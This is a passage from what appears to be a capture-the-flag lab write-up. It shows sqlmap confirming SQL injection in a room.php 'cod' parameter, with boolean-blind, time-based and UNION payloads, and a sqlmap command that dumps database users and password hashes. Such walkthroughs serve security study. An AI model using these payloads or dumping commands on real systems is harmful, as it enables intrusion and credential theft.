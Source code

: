 ```
    Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
---
[15:03:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[15:03:41] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.143'

[*] ending @ 15:03:41 /2019-06-28/

```

I can use this to dump the sql username and password:

```

root@kali# sqlmap -u http://10.10.10.143:80/room.php?cod=1 --random-agent --level 1 --risk 1  --batch --users --passwords
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.3.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:05:59 /2019-06-28/

[15:05:59] [INFO] fetched random HTTP User-Agent header value 'Opera/9.80 (Windows NT 5.1; U; ru) Presto/2.5.22 Version/10.50' from file '/usr/share/sqlmap/txt/user-agents.txt'
[15:06:00] [INFO] resuming back-end DBMS 'mysql'
[15:06:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 8643=8643

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cod=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-1250 UNION ALL SELECT CONCAT(0x71716a6b71,0x5a79784d6b726747766a5361735841666d6569556e4671434363656e617a77797162477578515647,0x716b717871),NULL,NULL,NULL,NULL,NULL,NULL-- FOKX
---
[15:06:00] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[15:06:00] [INFO] fetching database users
[15:06:00] [INFO] used SQL query returns 28 entries
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
[15:06:00] [INFO] retrieved: ''DBadmin'@'localhost''
```